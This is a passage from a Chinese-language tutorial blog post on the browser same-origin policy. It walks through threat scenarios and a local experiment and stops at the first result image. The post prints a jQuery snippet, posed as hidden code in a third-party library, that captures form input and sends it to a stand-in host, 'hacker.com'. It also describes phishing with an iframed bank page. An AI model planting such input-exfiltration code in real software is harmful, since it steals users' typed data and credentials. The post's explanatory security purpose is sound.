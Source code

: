 ```yaml
---
title: 同源策略
---
```


<p class="lead">
	本文讨论浏览器上的同源策略，分析同源策略已解决的问题，以及目前还存在什么问题。
</p>

首先，我们先不看什么是同源策略，先来想一些可能的web安全方面的隐患：

* <a name="s1">**情景1：**</a>假如我写了一个通用的js库，被很多开发者引用，但他们不知道我在里面偷偷加了一些恶意代码：getInputValAndSendToDB()。这个方法的主要功能是监听用户的键盘输入，并将输入的值通过ajax或JSONP等形式发送到我的服务器并存储到数据库中。

代码看起来可能像这样：
{% highlight js %}
var other = (function () {
    var getInputValAndSendToDB = function() {
        $('#text').on('change', function () {
            var val = $(this).val();
            send(val);
        });
    }
    var send = function (data) {
        $.get('http://www.hacker.com/?data=' + data, function (data) {
            console.log('来自第三方JS库的消息:');
            console.log(data);
        });
    };
    $(function () {
        getInputValAndSendToDB();
    });
})();
{% endhighlight %}

* **情景2：**再假如我写了一个html页面，里面只有个iframe元素，src属性设置为某个银行主页的地址。我还申请了一个和该银行主页类似的域名，最后将页面部署到Internet上。当有人打开这个页面，他们看到的内容和真正打开银行主页所看到的内容没有任何差别，但他们不知道其实我还在页面中加入了一段js代码，例如上面的getInputValAndSendToDB方法，监听银行主页的用户名input以及密码input，或者将银行页面中的某个链接的href属性改成其它钓鱼网站的地址，诱使用户在钓鱼网站上输入他们的用户名、密码、银行卡号等信息。

好，现在我们有了两个情景，那这两种情景是否有可能在浏览器中发生呢？接下来我们通过实验的方式来验证一下。

实验方案：

* 环境：使用nodejs启动两个服务，我这里分别监听了8110(开发者)和8111(第三方JS库提供者)端口
* 开发者: 引用第三方提供的JS库: other.js。页面中放置一个input标签
* 第三方: 提供other.js，并在other.js中写入[情景1](#s1)中提到的恶意代码
* 实验过程: 在开发者页面的input中输入值，看是否会被发送到第三方服务器

实验过程:

开发者页面输入值: 
![Medium example image](https://yangfan44777.github.io/blog/1.png "Medium example image")


